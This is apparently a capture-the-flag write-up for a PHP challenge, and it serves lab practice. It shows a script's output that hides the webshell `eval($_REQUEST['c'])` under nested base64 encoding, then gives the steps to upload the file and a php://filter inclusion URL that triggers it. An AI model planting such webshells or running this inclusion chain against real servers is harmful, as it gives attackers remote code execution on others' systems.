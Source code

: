 #### Goals
 * Get the flag

#### Solution


#### Writeups

* Generate base64 encoded webshell via [python script](https://gist.github.com/WangYihang/a49c663237e68822dd4816e99534ca72)
```
# python exploit.py
[+] Base64 chars : abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789+/
[+] Plain : <?php eval($_REQUEST['c']);?>
[+] Start charset : [AGCT]
[+] Generating tables...
[+] Got 6 chars : ['a', 'd', 'L', '1', '0', '4']
[+] Got 21 chars : ['5', 'W', 'G', 'F', 'i', 'h', 'k', 'V', 'M', '/', 'N', 'R', 'u', 't', 'w', '8', 'x', 'B', 'Z', 'K', '4']
[+] Got 56 chars : ['+', '/', '1', '0', '3', '2', '5', '4', '7', '6', '9', '8', 'A', 'C', 'B', 'E', 'D', 'G', 'F', 'I', 'H', 'K', 'J', 'M', 'L', 'O', 'N', 'Q', 'P', 'S', 'R', 'U', 'T', 'W', 'V', 'Y', 'X', 'Z', 'a', 'c', 'b', 'e', 'd', 'g', 'f', 'i', 'h', 'k', 'm', 'l', 'o', 'n', 'q', 'p', 'y', 'x']
[+] Got 64 chars : ['+', '/', '1', '0', '3', '2', '5', '4', '7', '6', '9', '8', 'A', 'C', 'B', 'E', 'D', 'G', 'F', 'I', 'H', 'K', 'J', 'M', 'L', 'O', 'N', 'Q', 'P', 'S', 'R', 'U', 'T', 'W', 'V', 'Y', 'X', 'Z', 'a', 'c', 'b', 'e', 'd', 'g', 'f', 'i', 'h', 'k', 'j', 'm', 'l', 'o', 'n', 'q', 'p', 's', 'r', 'u', 't', 'w', 'v', 'y', 'x', 'z']
[+] Trying to encode data...
[+] The encoded data is saved to file (9984 Bytes) : AGCT
[+] Usage : php -r 'include("php://filter/convert.base64-decode/resource=php://filter/convert.base64-decode/resource=php://filter/convert.base64-decode/resource=php://filter/convert.base64-decode/resource=php://filter/convert.base64-decode/resource=AGCT");'
[+] Executing...
PHP Notice:  Undefined index: c in /root/AGCT on line 1
```
* Upload the encoded webshell `AGCT` to the server, eg: `index.php`
* Trigger php file inclusion using multiple base64-decode converters
```
http://127.0.0.1:8080/index.php?action=php://filter/convert.base64-decode/resource=php://filter/convert.base64-decode/resource=php://filter/convert.base64-decode/resource=php://filter/convert.base64-decode/resource=php://filter/convert.base64-decode/resource=upload/index
```


## 版权

该题目复现环境尚未取得主办方及出题人相关授权，如果侵权，请联系本人删除（wangyihanger@gmail.com）
